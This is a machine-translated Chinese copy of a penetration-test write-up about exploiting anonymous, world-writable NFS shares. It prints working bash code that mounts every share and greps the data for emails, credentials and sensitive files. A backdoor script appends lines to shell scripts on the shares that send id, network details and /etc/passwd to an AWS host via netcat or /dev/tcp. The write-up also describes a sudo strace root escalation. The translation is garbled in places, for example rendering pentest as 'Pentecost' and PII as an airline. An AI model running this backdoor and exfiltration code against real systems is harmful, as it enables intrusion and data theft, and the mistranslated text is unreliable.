









# 全球可写 NFS 股票的危险

> 原文：<https://infosecwriteups.com/the-danger-of-world-writable-nfs-shares-39ecfe868468?source=collection_archive---------0----------------------->

免责声明:为了防止该公司的信息泄露，这里的大部分证据/截图都是尽可能接近真实情况而重新创建的。

这是我几个月前参加的一次 pentest 的书面记录。这一切都始于一个简单的网站。为了防止敏感信息的泄露，我将把网站的公共名称替换为内部 ip。在对其进行聚类([https://github.com/OJ/gobuster](https://github.com/OJ/gobuster))后，我们发现了一个禁止浏览的目录(403 错误)。



这个合法的目录似乎很有趣，在配置 apache 时，您会发现一个常见的错误，就是限制目录列表，但允许访问单个文件。当使用。特定文件夹中的 htaccess，类似于:

```
Options -Indexes
```

在这种情况下，这个。htaccess 位于合法文件夹中，递归地阻止了目录列表，但没有阻止单个文件的访问。由于 gobuster 没有递归选项，我们不得不在每个单独的目录上调用它，假设返回 403 错误的目录存在，直到我们到达敏感文件 config.server。我们不得不使用 raft-medium-directory 和 raft-medium-folders 强制每个文件夹(你可以在 https://github.com/danielmiessler/SecLists 的[中找到这些和其他优秀的单词列表)](https://github.com/danielmiessler/SecLists)



调查结果/法律/环境


调查结果/法律/环境/测试版



最终找到 config.server



config.server 的内容

正如我们所看到的，config.server 是一个配置文件，可能用于定义 nfsmount。我们可以在 10.1.5.243 中使用命令 showmount -e 枚举其他挂载。



导出的 nfs 共享

大多数导出的共享都可以公开访问。大概有 15 个(上图只显示了前 10 个)。我们继续用这个 bash 脚本安装所有这些组件:

```
for i in $(showmount -e 10.1.5.243 |cut -f 1); do mkdir /mnt"$i" && mount -t nfs 10.1.5.243:"$i" /mnt/"$i"; done
```

这基本上为挂载点创建了一个目录(/mnt/vol/{folder})，并将所有内容挂载到它自己的文件夹中。

我们通过 web 应用程序访问了这个易受攻击的 nfs 服务器，但它也出现在我们的 Nessus 扫描中。直到不久前，Nessus 还将公开共享列为“信息”项，甚至不低。我们将在几分钟后看到为什么这实际上是一个高漏洞发现。

在挂载了所有的共享之后，我们需要启动一个枚举过程。我们只有两个五旬老人，所有东西都有超过 1.3TB 的数据。这意味着自动化枚举。

首先，您需要定义要查找哪些信息。我们决定获取以下信息:

1.  信用卡
2.  巴基斯坦国际航空公司
3.  客户电子邮件
4.  有趣的文件(sql、vmdk、vdi、配置文件、bash 脚本等..)
5.  具有凭据的文件

在决定了这些项目之后，我们很快编写了一些 bash 脚本来搜索这些东西。我们选择不使用单个脚本，因为我们希望并行执行每个进程，并且 pentest 足够短，我们没有时间编写更复杂的代码(例如，带有多线程的 python 脚本)。

下面的正则表达式将搜索电子邮件

```
#!/bin/bash
logFile='searchEmails.log'
mkdir $logFile > /dev/null
targetDir="$1"
cd "$targetDir"
for i in $(ls "$targetDir"); do
    grep -h -r -E -o "\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,6}\b" $i > "$logFile" 2>/dev/null &
done
```

这将寻找有趣的文件扩展名

```
#!/bin/bash
logFile="$(pwd)/logs/"
mkdir $logFile > /dev/null
targetDir="$1"
cd "$targetDir"
for i in $(ls "$targetDir"); do
    find "$i" -iname \*.sql -o -iname \*.vmdk -o -iname \*.sh -o -iname \*.vdi -o -iname \*.mp3 -o -iname config.php -o -iname wp-config.php -o -iname shadow >> "$logFile$i.search" 2>/dev/null &
done
```

这是递归关键字

```
#!/bin/bash
logFile="$(pwd)/logsPassword/"
mkdir $logFile > /dev/null
targetDir="$1"
cd "$targetDir"
for i in $(ls "$targetDir"); do
    grep -irE "ssh|rdp|ftp|pass" "$i" 2>/dev/null | grep -v 'Binary file' | sort -u > "$logFile$i.search" 2>/dev/null &
done
```

总之，我们发现了超过 1100 万封客户电子邮件、明文凭据、SQL 转储、支付信息和大量 PIA。我们找不到任何明文形式的信用卡号码，但我们找到了一份超过 3 年的客户投诉电话备份，讨论信用卡费用(我们能够提取其中的一些来证明发现的严重性)。我们还找到了那些客户代表代理的笔记，上面也有完整的抄送号码。

在我们能够提取的所有数据库转储中，我们发现了一个星号服务器的所有系统管理员的有趣备份，密码以 base64 编码:



这将允许我们执行一些 PBX 黑客攻击，不幸的是，这不在 pentest 的范围内。

我们还能够找到一个未加密的 windows vmdk 备份，我们使用 samdump2 在本地挂载它来提取系统和 SAM 文件。提取散列后，我们用开膛手约翰破解了它们。这些散列允许我们转向一个完全不同的广告环境。我会上传另一篇后续文章，因为我不想写得太长。

在提取了大部分相关信息后，我们决定尝试利用我们对共享的写权限。匿名阅读是坏消息，但匿名写作更糟。很多时候，在大公司里，你有从这些类型的共享中消耗资源的服务，我们想要检查是否是这种情况。

现在，为了利用这一点，我们决定对共享中的脚本进行后门操作。我们时间有限，所以大规模后门编译可执行文件(如 elf、exe 或 jar 文件)是不可能的。我们认为最容易被后门的文件类型是 bash 脚本。这些具有易于修改的优点(您可以只添加新行)，并且我们还需要考虑非后门流程，以便在 pentest 结束后补救这种情况。

我们在 aws 中设置了一个可公开访问的实例，并运行了以下脚本。

```
#!/bin/bash
scanDir="$1"
cc="ec2-32-208-170-100.compute-1.amazonaws.com"
ccport="60666"
info='Id:$(id);Ifconfig:$(ifconfig);Passwd:$(cat /etc/passwd);'
temp=$(mktemp)# function ncRun(){
#     echo $info | /bin/nc $cc $ccport
# }# function bashRun(){
#     echo $info > /dev/tcp/$cc/$ccport
# }echo "[[ -e /bin/nc ]] && echo \"$info\" | /bin/nc -q 0 $cc $ccport  || echo \"$info\" > /dev/tcp/$cc/$ccport & exit" > $tempfor i in $(find $1 -iname \*.sh 2>/dev/null ); do echo "Backdooring $i" && echo "" >> $i && cat $temp >> $i; done
```

这基本上附加了几行到 found。sh 文件，该文件检查 netcat 是否存在(/bin/nc)。如果有，它会通过 netcat 将相关信息(它的 id、网络信息和/etc/passwd)发送到我们的服务器。如果 netcat 不存在，它使用 bash 内置的/dev/tcp dev 文件，这允许您使用 dev 文件/dev/TCP/server/port([https://www.tldp.org/LDP/abs/html/devref1.html](https://www.tldp.org/LDP/abs/html/devref1.html))连接到 server:port。您可以在此处看到该脚本的输出示例:



后门的一个例子。上海脚本

要接收连接，您只需像这样设置一个监听器

```
nc -lkvp 60666 > reverse.log
```

(最好在 tmux/screen 会话中，以便您可以注销)

在这种情况下，我们让它运行了 2 个小时，收到了大约 17 个连接回复。由于显而易见的原因，我不能把真正的证据放在这里，它看起来像这样:



在我们的 aws 实例上模拟连接

不是最好的输出，但足以证明妥协。

在攻破这些服务器后，我们开始调查它们。它们都是 ubuntu 服务器，在我们收到的 17 个连接回复中，只有 2 个来自 root 帐户。剩下的 15 个来自非特权账户。幸运的是，所有这些都是以相同的方式配置的。原来这些服务器大部分是由开发者使用的，出于安全原因，他们没有 root 权限。为了让他们能够调试部署的应用程序，sysadmin 团队授予他们使用 sudo 运行 strace 的权限，而不需要密码。该漏洞很容易被利用，因为为了调试应用程序/命令，您首先需要运行它。拥有超级用户权限。
在下一张截图中，你可以看到如何利用这个漏洞在系统上获得一个根外壳。我们基本上制作了一个 bash 副本，并给它分配了一个 suid。然后，我们用-p 运行它(以维护 suid 特权)，正如您所看到的，我们的有效 uid 是 0 (root)。



使用 strace 提升权限

接下来的几周，我们再次被同一家公司雇用来审计这些服务器的内部安全，我们能够找到 13 种不同的方法来提升权限，利用 sudo 易受攻击的二进制文件()和弱 sudo 脚本(使用不同的注入、本地符号链接利用、竞争条件和弱权限)。这很可能是未来的又一篇文章。

出于简洁和保密的原因，我不能在这里列出信息和基础设施受损的总量。但考虑到我们只有不到一周的时间，这是我们做过的最有意义的圣灵降临节之一。